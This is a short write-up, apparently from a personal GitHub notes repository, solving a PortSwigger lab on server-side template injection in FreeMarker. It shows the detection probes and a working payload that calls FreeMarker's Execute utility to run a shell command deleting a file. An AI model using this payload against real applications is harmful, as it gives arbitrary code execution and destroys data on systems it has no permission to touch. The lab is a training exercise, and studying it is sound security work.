


# [Lab: Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection). To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

## Detect SSTI

Login to content manager account.

After login, there is an special function that only authorized account have, that is `edit template`.

Play around this function:


=> freemarker

## Freemarker payloads

read:

- <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker>

The template can be :

- Default: ${3*3} => ok
- Legacy: #{3*3} => ok
- Alternative: [=3*3] since FreeMarker 2.3.4 => fail

## Exploit

First try hehe:


Solve lab:

```html
<p>Hurry! Only ${"freemarker.template.utility.Execute"?new()("rm morale.txt")} left of ${product.name} at ${product.price}.</p>
```
